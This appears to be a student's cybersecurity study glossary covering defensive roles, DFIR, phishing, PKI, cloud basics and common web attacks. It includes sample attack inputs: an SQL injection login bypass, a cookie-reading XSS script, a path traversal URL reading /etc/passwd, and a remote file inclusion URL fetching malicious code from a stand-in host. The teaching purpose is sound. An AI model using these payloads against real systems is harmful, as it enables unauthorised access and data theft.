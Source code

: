 GO BUSTER - A tool used to find hidden directories and pages on a website using a list of words.
-u: Used for scanning the target website.
-w: Specifies the wordlist to locate hidden pages.
Hidden Pages: Pages not publicly shown but still accessible.
Wordlist: File containing possible directory or page names.
Example: gobuster -u http://fakebank.thm -w wordlist.txt dir

BLUE TEAM vs RED TEAM -Two main groups in cybersecurity — the blue team defends systems, while the red team finds and exploits vulnerabilities.
Blue Team: Defensive security; protects systems.
Offensive (Red Team): Identifies and exploits system weaknesses.
Security Operations Center (SOC): Monitors networks and systems; focuses on vulnerabilities, policy violations, intrusions, and unauthorized activity.
Threat Intelligence: Collects data to prepare against potential adversaries.
Threat: Something that can disrupt or adversely affect a system.
Intelligence: Refers to actual and potential enemies.

DIGITAL FORENSICS AND INCIDENT RESPONSE (DFIR) - Digital Forensics investigates crimes using technology; Incident Response manages cyberattacks or data breaches.
Digital Forensics: Application of science to investigate crimes involving computers and digital systems.
File System: Analyzing digital images reveals installed, deleted, or overwritten files.
System Memory: Investigates malware running only in memory.
System Logs: Records events happening on client and server computers.
Network Logs: Track network packets to identify attacks.
Incident Response: Steps for handling cyberattacks.
Preparation: Team is trained and ready.
Detection and Analysis: Identify incidents using available resources.
Containment, Eradication, Recovery: Stop, remove, and fix affected systems.
Post-Incident Activity: Create reports and share lessons learned.

MALWARE / MALICIOUS ANALYSIS - Study of harmful software like viruses, Trojans, and ransomware designed to steal data or control devices.
Malware: Harmful software like viruses, Trojans, ransomware.
Virus: Code that attaches itself to a program.
Trojan: Malicious code hidden under legitimate programs.
Ransomware: Encrypts user files and demands payment for the password.
Static Analysis: Inspecting malware without executing it.
Dynamic Analysis: Running malware in a controlled environment to observe its activity.
Example: A victim downloads a fake video player from a shady website that gives attackers full control of the system.

SECURITY OPERATIONS CENTER (SOC) - A facility that monitors and analyzes network activity for potential security incidents.
SIEM: Security Information and Event Management system for monitoring security events.
Snake Oil: Fraudulent cryptographic method or product.
SS (Socket Statistics): Replaces netstat in Linux to show network connections.
Filetype: Search operator to limit Google results to certain file types.
Examples: filetype:pdf warfare report → limits results to PDF files about cyber warfare.

SEARCH ENGINES & OPERATORS - Techniques for refining searches and locating specific cybersecurity resources.
“Exact Phrase”: Searches for exact words inside quotes.
Example: "passive reconnaissance"
Site: Limits results to a domain.
Example: site:tryhackme.com success stories
(Minus): Excludes specific terms.
Example: pyramids -tourism
Filetype: Searches for specific file types.
Example: filetype:ppt cyber security

SPECIALIZED SEARCH ENGINES - Search engines designed for security research, device tracking, and malware scanning.
Shodan: Finds devices connected to the internet (servers, routers, webcams, IoT).
Example link: https://www.shodan.io/search/examples
Censys: Focuses on internet-connected hosts, websites, and certificates.
VirusTotal: Scans files/URLs with multiple antivirus engines.
Have I Been Pwned (HIBP): Checks if emails are in data breaches.
Example link: https://haveibeenpwned.com/

VULNERABILITIES AND EXPLOITS- Known security flaws and their exploit codes.
CVE: Common Vulnerabilities and Exposures (e.g., CVE-2024-29988).
Exploit Database: List of exploit codes by various authors.
AttackBox: A Linux system accessible from the browser for testing.
Product Documentation: Official references for Snort, Apache, PHP, Node.js.

PUBLIC KEY INFRASTRUCTURE (PKI) - System that manages certificates and public key encryption for secure communication.
ADCS: Active Directory Certificate Services, PKI implementation by Microsoft.
CA (Certificate Authority): Issues digital certificates.
Certificate Template: Defines how and when certificates can be issued.
CSR: Certificate Signing Request sent to a CA.
EKU: Extended/Enhanced Key Usage; defines how certificates can be used.
Domain Users/Computers: Authorized to request certificates.

SOCIAL ENGINEERING - Cyberattack that targets humans by tricking them into revealing information or granting access.
Stuxnet: Computer worm that spreads and takes control of devices.
USB Attack: Attackers leave infected USBs in public to trick victims.
Fake Calls: Attackers pretend to be bank employees to access accounts.
Prevention:
    Always verify callers.
    Legit employees never ask for passwords.
    Avoid plugging unknown external media.

PHISHING - Common cyberattack used to steal personal or corporate data through fake communication.
General Phishing: Non-targeted, large-scale attack.
Smart Phishing: Targeted toward specific individuals or small groups.
Whaling: Targets high-value individuals.
Prevention:
    Delete untrusted emails.
    Don’t click suspicious links.
    Keep antivirus software updated.

MALWARE & RANSOMWARE SAFETY - Practices that help prevent infections and data loss.
Software Updates: Always accept patches and updates.
Suspicious Files: Avoid running untrusted downloads.
Backup: Keep copies of important data to prevent loss.

MULTI-FACTOR AUTHENTICATION (MFA) - Login method that requires more than one authentication factor.
Authentication Factor: Different credentials used for login (e.g., password + code).
PUBLIC NETWORK SAFETY - Precautions to stay safe when using public Wi-Fi.
Man-in-the-Middle Attack: Attackers intercept unencrypted data.
VPN (Virtual Private Network): Encrypts traffic between your machine and the server.
Examples: ProtonVPN, Mullvad VPN.
HTTPS: Secure websites show a padlock icon.
Backup Rule 3-2-1:
    3 backups, 2 local, 1 stored elsewhere.

SECURITY CAREERS - Different cybersecurity job roles and their responsibilities.
Security Engineer: Develops and implements security solutions.
MTTD: Mean Time to Detect.
MTTA: Mean Time to Acknowledge.
MTTR: Mean Time to Recover.
Forensic Analyst: Collects and analyzes digital evidence.
Malware Analyst: Reverse-engineers malicious programs.

NETWORK FUNDAMENTALS - Describes how devices identify and connect within networks.
IP Address: Identifies a device temporarily in a network.
MAC Address: Permanent identifier similar to a serial number.

CYBERSECURITY FUNDAMENTALS - Protecting computer systems, networks, and sensitive data.
Three Pillars: People, Processes, Technology.
Vulnerability Scanning: Systematic review of weaknesses.
Penetration Testing: Simulated cyberattack to test defenses.
Pen Testing Lifecycle:
    Recon
    Scanning
    Gaining Access
    Maintaining Access
    Covering Tracks
    Reporting

CLOUD AND VIRTUALIZATION FUNDAMENTALS - Principles of using cloud environments for data storage and computing.
File Synchronization: Syncs data across devices.
CDN: Servers worldwide to reduce delay.
Public Cloud: Internet-based, cost-effective.
Private Cloud: Internal organizational system.
Hybrid Cloud: Combination of both.
Community Cloud: Shared among organizations.
CASB: Ensures secure device connection to cloud services.
Example Links:
    https://owasp.org/Top10/
    https://socradar.io/npm-supply-chain-attack-crypto-stealing-malware/


OS COMMAND INJECTION - Attack executing arbitrary commands on a system via untrusted input.
External Input: User input affecting the command string.
Special Characters: ;, &, &&, || used to chain commands.
Variant 1 (Arguments): Injecting extra arguments into commands.
Variant 2 (Command Path): Replacing command names with malicious ones.
Example:
    http://192.168.25.28:8080/login.php — vulnerable web app example.

BURP SUITE - Web testing tool for analyzing and attacking web applications.
Proxy: Intercepts web traffic.
Repeater: Manually modifies HTTP requests.
Intruder: Automates attacks like SQLi or XSS.
Scanner: Finds vulnerabilities automatically.
Sequencer: Analyzes randomness in session tokens.

SQL INJECTION (SQLi) - Injecting malicious SQL code into database queries.
Improper Neutralization: Using unvalidated user input in queries.
Login Bypass Example:
    Input: ' OR '1'='1
    Result: Always true, logs in attacker.
Impacts: Data theft, modification, or full system control.
Prevention:
    Prepared Statements
    Input Validation
    Stored Procedures

OWASP & COMMON WEB ATTACKS - Organization focused on improving software and web security.
XSS (Cross-Site Scripting): Injecting malicious scripts into web pages.
     XSS: Non-persistent attack via URL or request.
    Stored XSS: Script stored on the server.
    DOM-Based XSS: Script executes on client-side.
    Example: <script>alert(document.cookie)</script>
Path Traversal (CWE-35): Accessing restricted files using ../.
Example:
    http://some_site.com.br/get-files?file=../../../../etc/passwd
Remote File Inclusion (RFI):
Example:
    http://some_site.com.br/some-page?page=http://other-site.com.br/malicious-code.php

CASE STUDY – BLACKCAT RANSOMWARE (Change Healthcare) - A ransomware attack exploiting a Citrix server with no MFA, causing data exposure.
Attack Date: Feb 2024 detected; Jan 2025 – 190M affected.
Impact: $3.09 billion loss for UnitedHealth Group.
Vulnerability: Missing multi-factor authentication.
Prevention:
    Enable MFA
    Security training
    Regular assessments
    Incident Response Plan
